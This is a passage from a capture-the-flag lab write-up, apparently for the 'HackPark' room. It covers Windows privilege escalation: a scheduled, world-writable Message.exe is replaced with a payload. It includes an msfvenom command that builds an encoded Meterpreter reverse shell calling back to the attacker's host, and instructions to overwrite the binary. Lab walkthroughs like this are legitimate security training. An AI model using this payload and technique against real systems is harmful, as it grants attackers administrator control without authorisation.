 In the **Events** directory, we can see a log file called **20198415519.INI_LOG.txt**.

![screenshot18](../assets/images/hackpark/screenshot18.png)

Looking inside, we can see that it is filled with log messages of the **Message.exe** file being executed by the Administrator account. Hence, it seems as if the Message.exe file is being periodically run with root permissions. This is great as that means that we can actually replace this file with a reverse shell that we create. Our reverse shell will then be executed by the Administrator account, hence granting us access into the machine with root permissions. 

![screenshot15](../assets/images/hackpark/screenshot15.png)

From our WinPEAS results earlier on, we also know that we can indeed replace this Message.exe file as the **C:\Program Files (x86)\SystemScheduler** directory is **world writable**!

Name of binary to exploit: **Message.exe**

---

### [ What is the user flag (on Jeffs Desktop)? ]

On our local machine, let's go ahead and use `msfvenom` again to craft a reverse shell which uses a different port. We also name the reverse shell file as **Message.exe**.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=YOUR_IP_HERE LPORT=4446 -f exe -o Message.exe
```

Next, we use our current meterpreter session to upload our malicious **Message.exe** file onto our target machine. Make sure to upload the file to the  **C:\Program Files (x86)\SystemScheduler** directory, which will overwrite the existing Message.exe file.

![screenshot19](../assets/images/hackpark/screenshot19.png)
